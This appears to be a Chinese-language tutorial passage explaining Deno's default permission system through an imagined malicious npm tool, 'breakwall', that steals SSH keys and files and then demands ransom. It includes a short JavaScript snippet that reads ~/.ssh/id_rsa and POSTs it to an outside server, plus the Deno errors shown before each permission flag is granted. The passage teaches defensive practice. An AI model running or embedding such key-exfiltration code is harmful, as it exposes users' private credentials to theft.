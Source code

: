 **模拟盗号**

在介绍之前我们先思考一下这个场景会不会出现：

我做了一个基于命令行的一键上网工具 `breakwall`，每月 1 个 G 免费流量，然后将压缩后的 JS 代码发布到 npm 上，然后后在各种渠道宣传一波。

羊毛党兴高彩烈的 `cnpm install -g breakwall`，然后每次使用的时候，我偷偷的将诸位的 ssh 密钥和各种能偷的文档及图片偷偷上传到我的服务器，在设定期限到期后，删除电脑上资料，留下一句拿钱换资料，仅支持比特币。

**默认安全的 deno**

如果你觉得以上情况有可能出现，则会觉得下面的功能很实用。我们先用 deno 执行以下代码：

```js
// index.js
let rsa = Deno.readFileSync(Deno.dir("home") + "/.ssh/id_rsa");

rsa = new TextDecoder().decode(rsa);

fetch("http://jsonplaceholder.typicode.com/posts/1", {
  method: "POST",
  body: JSON.stringify(rsa)
})
  .then((res) => res.json())
  .then((res) => console.log("密钥发送成功，嘿嘿嘿😜"));

console.log("start breakwall...");
```

> PS: --unstable 是由于 Deno.dir API 不稳定

```js
 deno run --unstable index.js
```

我们将会得到如下报错信息：

```js
> deno run --unstable  index.js
error: Uncaught PermissionDenied: access to environment variables, run again with the --allow-env flag
    ...
```

意思就是权限异常，需要访问环境变量，需要加上 `--allow-env`，我们加上这个参数再试一下。

```js
 deno run --unstable --allow-env index.js
error: Uncaught PermissionDenied: read access to "/Users/zhangchaojie/.ssh/id_rsa", run again with the --allow-read flag
    ...
```
如此反复，还需加上 `--allow-read`、`--allow-net` ，最终的结果是：
```js
> deno run --unstable --allow-env --allow-read --allow-net  index.js
start breakwall...
密钥发送成功，嘿嘿嘿😜
```

